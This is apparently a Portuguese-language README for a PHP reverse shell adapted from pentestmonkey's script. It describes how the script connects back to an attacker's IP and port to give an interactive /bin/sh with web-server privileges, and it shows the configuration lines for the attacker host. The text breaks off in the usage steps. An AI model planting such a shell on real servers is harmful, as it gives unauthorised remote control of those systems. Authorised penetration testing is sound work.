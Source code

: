 # 🐚 PHP Reverse Shell - Versão em Português

Uma **implementação de shell reverso em PHP** baseada no script original de [pentestmonkey](http://pentestmonkey.net/tools/php-reverse-shell), com comentários traduzidos para o português, adaptado por [h4ckthreat](mailto:h4ckthreat@gmail.com).

---

## ⚠️ AVISO LEGAL

> Este código é disponibilizado **somente para fins educacionais** ou para **testes de segurança autorizados**.  
> O uso sem permissão pode violar leis locais ou internacionais.  
> O autor **não se responsabiliza** por qualquer uso indevido deste código.  
> Use **apenas em ambientes controlados** com autorização explícita.

---

## 📖 Descrição

Este script PHP faz uma **conexão TCP reversa** para um IP e porta especificados.  
Assim que a conexão for estabelecida, o atacante recebe um **shell interativo** com os mesmos privilégios do processo PHP (geralmente `www-data`, `apache`, etc).

---

## ✅ Funcionalidades

- Conexão reversa via `fsockopen`
- Execução de shell interativo com `/bin/sh -i`
- Comunicação bidirecional com `proc_open` e `stream_select`
- Tentativa de daemonização para evitar processos zumbis
- Comentários em português explicando todo o funcionamento

---

## 🧪 Requisitos

- PHP 4.3 ou superior
- Funções ativadas: `fsockopen`, `proc_open`, `stream_set_blocking`, `stream_select`
- Ambiente Unix/Linux para melhor compatibilidade

---

## 🛠️ Como Usar

### 1. Edite o script PHP

Abra o arquivo e altere o IP e a porta para o seu host atacante:

```php
$ip = 'SEU_IP_AQUI';   // Exemplo: '192.168.0.100'
$port = 1234;          // Exemplo: 4444
